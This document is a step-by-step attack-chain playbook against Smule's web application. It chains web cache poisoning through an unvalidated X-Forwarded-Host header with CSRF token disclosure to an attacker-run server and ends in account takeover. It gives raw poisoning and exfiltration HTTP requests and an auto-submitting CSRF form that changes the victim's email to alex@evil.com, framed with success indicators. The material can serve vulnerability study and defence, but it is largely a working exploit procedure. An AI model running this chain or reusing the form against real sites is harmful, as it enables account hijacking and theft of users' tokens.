

# Web Cache Poisoning via X-Forwarded-Host Leading to CSRF Token Disclosure and Account Takeover

Multi-stage attack chain demonstrating a complete attack workflow on Smule's web application, where unvalidated X-Forwarded-Host headers poison the cache, rewrite URLs to an attacker-controlled server, and enable CSRF token theft for account takeover.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 7 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]
- [[tools/PHP]]
- [[tools/Apache-htaccess]]

### Target Environment

- Web platform (Ruby on Rails inferred from authenticity_token and cookies)
- Required services/ports: HTTP/HTTPS on port 80/443
- Network access requirements: Ability to intercept traffic to www.smule.com and host a local server (e.g., localhost:80)

### Initial Access Requirements

- No credentials needed initially
- Network position: Attacker must be able to poison shared cache (e.g., via proxy or direct access)
- Prior access needed: None, but victim must load the cached poisoned page

## Detailed Attack Procedures

### Step 1: Intercept the Initial GET Request
procedure: [[procedures/Poison-Web-Cache-with-X-Forwarded-Host]]

**Objective**: Capture the GET request to the user group page using a proxy tool to prepare for header modification.

**Instructions**: Use [[tools/Burp-Suite]] to intercept the request to https://www.smule.com/s/smule_groups/user_groups/fossnow27.

**Expected Output**: Raw HTTP GET request captured in the proxy.

**Success Indicators**:
- Request intercepted successfully
- Target URL matches /s/smule_groups/user_groups/<username>

### Step 2: Modify Request with X-Forwarded-Host Header
procedure: [[procedures/Poison-Web-Cache-with-X-Forwarded-Host]]

**Objective**: Add the X-Forwarded-Host header to force URL rewriting in the response, poisoning the cache.

**Instructions**: In [[tools/Burp-Suite]], modify the request by adding `X-Forwarded-Host: localhost` and forward it. Execute using [[commands/modify-get-with-x-forwarded-host]]:

```http
GET /s/smule_groups/user_groups/fossnow27 HTTP/1.1
Host: www.smule.com
X-Forwarded-Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: [redacted cookies]
Connection: close
Upgrade-Insecure-Requests: 1
If-None-Match: W/"74107fb6dcc410390f339e5ddabc3022"
Cache-Control: max-age=0
```

**Expected Output**: Server responds with HTML where links (e.g., action links, footer) are rewritten to point to localhost.

**Success Indicators**:
- Response contains localhost URLs
- Cache is poisoned for subsequent requests

### Step 3: Observe Poisoned Response
procedure: [[procedures/Poison-Web-Cache-with-X-Forwarded-Host]]

**Objective**: Verify the response has been poisoned with rewritten links.

**Instructions**: Inspect the response in [[tools/Burp-Suite]] for URL rewrites.

**Expected Output**: HTML with absolute URLs changed to http://localhost/ paths.

**Success Indicators**:
- Links point to attacker-controlled host
- No errors in response

### Step 4: Load Poisoned Response in Browser
procedure: [[procedures/Load-Poisoned-Response-in-Browser]]

**Objective**: Simulate victim loading the cached poisoned page to trigger redirects.

**Instructions**: Save the poisoned HTML response and open it in a browser.

**Expected Output**: Page loads normally, but interactions (e.g., login) redirect to localhost.

**Success Indicators**:
- Page appears functional
- Links resolve to poisoned host

### Step 5: Attempt Login to Trigger Email Check
procedure: [[procedures/Trigger-Email-Check-to-Disclose-CSRF-Token]]

**Objective**: Enter an email on the poisoned page to send requests to the attacker server, disclosing sensitive data.

**Instructions**: In the browser, enter an email (e.g., foo@bar.com) to trigger login. This sends OPTIONS and POST using [[commands/send-options-preflight-to-localhost]] and [[commands/post-email-check-to-localhost]]:

```http
OPTIONS /user/check_email HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Access-Control-Request-Method: POST
Access-Control-Request-Headers: x-csrf-token,x-smulen
Origin: https://www.smule.com
Connection: close
```

```http
POST /user/check_email HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: application/json, text/plain, */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.smule.com/s/smule_groups/user_groups/fossnow27
X-CSRF-Token: [redacted]
Content-Type: application/x-www-form-urlencoded
X-Smulen: daf446d26def7faeef4f6527d7f20fae
Content-Length: 31
Origin: https://www.smule.com
Connection: close

email=foo%40bar.com
```

**Expected Output**: Requests hit attacker server with CSRF token and email in headers/body.

**Success Indicators**:
- OPTIONS and POST received on localhost
- Token and email captured

### Step 6: Capture Disclosed Data
procedure: [[procedures/Capture-Data-on-Attacker-Server]]

**Objective**: Set up and run a server to log the disclosed CSRF token and email.

**Instructions**: Use [[tools/PHP]] with check_email.php and [[tools/Apache-htaccess]] to handle requests and mimic responses.

**Expected Output**: Script logs email, token, and returns JSON like {"email":true,"token":"[CSRF]","mail":"foo@bar.com"}.

**Success Indicators**:
- Data captured in logs
- Victim browser receives valid CORS response

### Step 7: Execute CSRF for Account Takeover
procedure: [[procedures/Perform-CSRF-Email-Update-for-Account-Takeover]]

**Objective**: Use the captured token to update the victim's email to attacker-controlled, taking over the account.

**Instructions**: Create and load an HTML page with auto-submitting form using [[commands/auto-submit-email-update-form]]:

```html
<!DOCTYPE html>
<head>
</head>
<body>
<form method="POST" action="https://www.smule.com/user/update/email">
<input type="hidden" name="utf-8" value="">
<input type="hidden" name="authenticity_token" value="{CSRF_TOKEN obtained previously}">
<input type="hidden" name="email" value="alex@evil.com">
<input type="hidden" name="email_confirmation" value="alex@evil.com">
<input type="hidden" name="tz_offset" value="19800">
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
```

**Expected Output**: Email updated successfully on Smule, allowing attacker to reset password.

**Success Indicators**:
- 200 OK from update endpoint
- Victim's email changed

## Attack Chain Summary

### Key Achievements

1. Successful cache poisoning via unvalidated X-Forwarded-Host
2. Disclosure of CSRF token and victim email through poisoned redirects
3. Complete account takeover by updating email with captured token

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Unsecured Credentials]] Unsecured Credentials
- [[Valid Accounts]] Valid Accounts

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Collection]] Collection
- [[Persistence]] Persistence

---

*Last updated: 2024-10-01T00:00:00Z*
